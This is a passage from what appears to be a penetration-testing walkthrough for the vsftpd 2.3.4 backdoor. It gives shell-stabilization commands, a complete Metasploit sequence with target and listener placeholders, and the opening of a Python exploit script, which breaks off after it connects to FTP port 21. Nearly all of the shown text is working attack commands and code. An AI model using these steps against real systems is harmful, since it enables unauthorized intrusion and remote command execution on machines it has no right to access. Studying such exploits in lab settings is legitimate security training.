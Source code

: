 #### Step 3: Shell Stabilization
```bash
# Upgrade to interactive shell
python -c "import pty;pty.spawn('/bin/bash')"

# Set terminal type
export TERM=xterm

# Background the process and set proper terminal handling
# Ctrl+Z
stty raw -echo; fg
# Press Enter twice
```

### Method 2: Metasploit Exploitation

#### Step 1: Configure Metasploit
```bash
# Start Metasploit console
msfconsole

# Use the vsftpd backdoor exploit
use exploit/unix/ftp/vsftpd_234_backdoor

# Show exploit options
show options

# Set required parameters
set RHOSTS <target-ip>
set LHOST <your-ip>

# Optional: set specific payload
set PAYLOAD cmd/unix/interact
```

#### Step 2: Execute Exploit
```bash
# Check if target is exploitable
check

# Execute the exploit
exploit

# Alternative: run the exploit
run
```

### Method 3: Python Script Exploitation

```python
#!/usr/bin/env python3
import socket
import sys
import time

def exploit_vsftpd(target_ip):
    try:
        # Connect to FTP service
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target_ip, 21))
        
        # Receive banner
        banner = s.recv(1024)
        print(f"Banner: {banner.decode().strip()}")
        
```